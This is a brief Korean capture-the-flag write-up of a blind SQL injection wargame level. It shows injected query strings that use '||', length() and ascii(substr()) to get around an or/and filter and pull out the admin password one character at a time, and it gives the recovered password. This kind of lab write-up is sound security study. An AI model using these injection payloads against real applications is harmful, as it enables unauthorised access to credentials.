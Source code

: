 ## Q7. orge _ 
<img src="/photo/prob_07.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: or / and <br> 문제 사항: admin의 패스워드를 찾아라.
### 해결책

```
패스워드를 찾아야 하는 문제이므로 먼저, 길이를 찾음
=> length()함수를 사용
=> 반복 작업을 해야하므로 파이썬 코드를 이용함
```
```diff
# 현재 쿼리문: where id='guest' and pw='' || length(pw)=8-- '
```
<참고> Python 코드 : [패스워드 길이 탐색](code/07_pwlength.py)
```
패스워드 길이가 8인 것을 찾아냄
이제 패스워드를 한글자씩 찾아봄
=> substr()함수를 사용
=> 반복 작업을 해야하므로 파이썬 코드를 이용함
```
```diff
# 현재 쿼리문: where id='guest' and pw=''||ascii(substr(pw,1,1))=55-- '
```
<참고> Python 코드 : [패스워드 문자 탐색](code/07_pw.py)
```
해결 쿼리문: where id='guest' and pw='7b751aec'
```
### CERT <br> Python 코드 : [패스워드 길이 탐색](code/07_pwlength.py) / [패스워드 문자 탐색](code/07_pw.py)
